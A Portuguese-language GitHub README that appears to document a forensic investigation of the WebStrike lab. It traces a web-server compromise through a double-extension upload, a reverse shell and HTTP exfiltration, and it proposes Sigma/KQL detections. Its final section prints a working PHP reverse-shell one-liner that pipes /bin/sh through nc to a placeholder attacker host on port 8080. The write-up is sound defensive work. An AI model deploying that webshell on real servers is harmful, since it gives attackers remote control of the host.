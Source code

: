 # WebStrike — Network Forensics & Detections  
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Contexto
Recebi um **PCAP** (tráfego capturado) do **servidor web** da empresa. Meu objetivo foi **confirmar um possível comprometimento**, entender **como** aconteceu e produzir **evidências, detecções e recomendações** acionáveis.

## Como conduzi a investigação (meu raciocínio)
1) **Mapeei os hosts e fluxos** no PCAP (Wireshark → *Statistics > Endpoints*).
2) **Contextualizei a origem** com **GeoIP** do IP externo suspeito.
3) **Busquei POST multipart** (upload) e indícios de **dupla extensão** em `filename=`; observei uma primeira tentativa falha e uma segunda bem-sucedida com `*.jpg.php` (exemplo genérico).
4) **Inspecionei o script** para confirmar **reverse shell** e **conexão de saída**.
5) **Procurei exfiltração** (picos de bytes **HTTP/HTTPS**) e padrões de automação.
6) **Consolidei evidências** em **timeline**; criei **regras Sigma/KQL** e **relatórios** técnico/executivo com recomendações.

## Principais achados (generalizados, sem spoilers)
- **Entrada:** *Upload* malicioso via **dupla extensão** (`.jpg.php`) contornando validação.
- **Pós-exploração:** **Reverse shell** com **conexão de saída :8080** para IP externo.
- **Exfiltração:** **POST** em **443** com volume anômalo sugerindo envio de dados sensíveis.

## Recomendações objetivas (24–72h)
- **Bloquear IoCs** e saídas **:8080** não justificadas.
- **WAF/validação de upload:** negar **dupla extensão** e inspecionar `multipart`.
- **No-exec em `/uploads`** (impedir execução de scripts em diretórios de mídia).
- Reforçar **monitoramento/detecções** (Sigma/KQL) e perfis de **volume** em 443.

---

## Objetivos de investigação (sem spoilers)

<summary><b>O1 — Origem do tráfego suspeito (GeoIP)</b></summary>

**De onde partiu a atividade maliciosa?  
**O que fiz:** levantei *top talkers* (Wireshark → Endpoints) e consultei **GeoIP** do IP externo.  
**Por que importa:** apoia *geo-blocking*, triagem de *threat intel* e contexto de risco.  
**Artefatos:** [`endpoints.txt`](20-network-analysis/tshark-commands.md) • [`timeline.md`](20-network-analysis/timeline.md)  

<summary><b>O2 — Identificação do agente cliente (User-Agent)</b></summary>

**Qual *User-Agent* foi usado na interação inicial?  
**O que fiz:** reconstruí **HTTP Stream** e inspecionei cabeçalhos; comparei com perfis legítimos.  
**Por que importa:** ajuda a criar **regras de filtragem** e detectar *tooling* disfarçado.  
**Artefatos:** [`wireshark-filters.md`](20-network-analysis/wireshark-filters.md) • `report-technical.md`  

<summary><b>O3 — Mecanismo de entrada (upload malicioso)</b></summary>

**Houve **upload de script** e como passou pela validação?  
**O que fiz:** filtrei `HTTP POST` multipart, busquei `filename=` e indícios de **dupla extensão**; confirmei sucesso do upload.  
**Por que importa:** evidencia **bypass de validação** e define **controles WAF**/hardening.  
**Artefatos:** [`web_upload_double_extension.yml`](30-detections/sigma/web_upload_double_extension.yml) • [`post_uploads.tsv`](20-network-analysis/tshark-commands.md)  
**Exemplo genérico:** `*.jpg.php` (exemplo **genérico**, não a resposta do lab).  

<summary><b>O4 — Local de armazenamento de uploads</b></summary>

**Onde o aplicativo armazena os arquivos enviados?  
**O que fiz:** segui **redirects** (HTTP 3xx) e navegação pós-upload para inferir o diretório.  
**Por que importa:** permite **remediação** (limpeza) e **no-exec** no diretório de mídia.  
**Artefatos:** [`timeline.md`](20-network-analysis/timeline.md) • `report-technical.md`  

<summary><b>O5 — Canal de comando e controle (reverse shell)</b></summary>

**Há **conexão de saída** para C2? qual **porta**?  
**O que fiz:** procurei padrões de **reverse shell** e conexões **outbound** atípicas; destaque para porta alta.  
**Por que importa:** base para **Egress Control** e detecção comportamental.  
**Artefatos:** [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) • `revshell.tsv`  

<summary><b>O6 — Tentativa de exfiltração</b></summary>

**Houve **envio de dados sensíveis** via HTTP/HTTPS?  
**O que fiz:** busquei **POST/PUT** com **alto volume** e padrões de `curl`/automação; sinalizei artefatos sensíveis (ex.: `/etc/passwd` como **exemplo genérico**).  
**Por que importa:** prioriza **resposta a incidentes** e criação de **regras de exfil**.  
**Artefatos:** [`web_exfil_high_volume.kql`](30-detections/kql/web_exfil_high_volume.kql) • `http_posts.tsv`  

---

## Como replicar (dados sintéticos)
Os artefatos abaixo incluem **consultas**, **regras** e **amostras sintéticas** para reproduzir consultas e visualizar o método, **sem** expor dados do laboratório.

- `20-network-analysis/` — filtros/extrações e timeline
- `30-detections/` — Sigma & KQL
- `50-reports/` — relatórios (técnico + executivo)

> **Licença:** MIT (apenas para o meu conteúdo autoral).  
> **Atribuição:** cenário inspirado no WebStrike Lab (link oficial na seção *references*).

---

## Análise do webshell (padrão de reverse shell — generalizado, sem spoilers)

Durante a inspeção do artefato de upload (webshell), identifiquei um **padrão clássico de reverse shell** em PHP
que orquestra FIFO em `/tmp` e inicia um shell interativo encaminhado via `nc` (*netcat*) para um **IP externo** e **porta alta**.

> **Snippet generalizado (placeholder):**
```php
<?php
system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f");
?>
```

- O comando `nc` indica **conexão de saída** para o **controlador** (C2).  
- A **porta-alvo** (no exemplo: **8080**) é um indicativo útil para **Egress Control** e detecção comportamental.
- Para fins de **ética/no-spoilers**, o endereço IP real foi substituído por `<ATTACKER_IP>`.

**Detecções relacionadas**
- [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) — monitoramento de conexões de saída para 8080.
- [`reverse_shell_nc_command.yml`](30-detections/sigma/reverse_shell_nc_command.yml) — detecção de *payloads* de upload contendo sequência de **FIFO + /bin/sh + nc** (quando o *logsource* captura corpo da requisição).
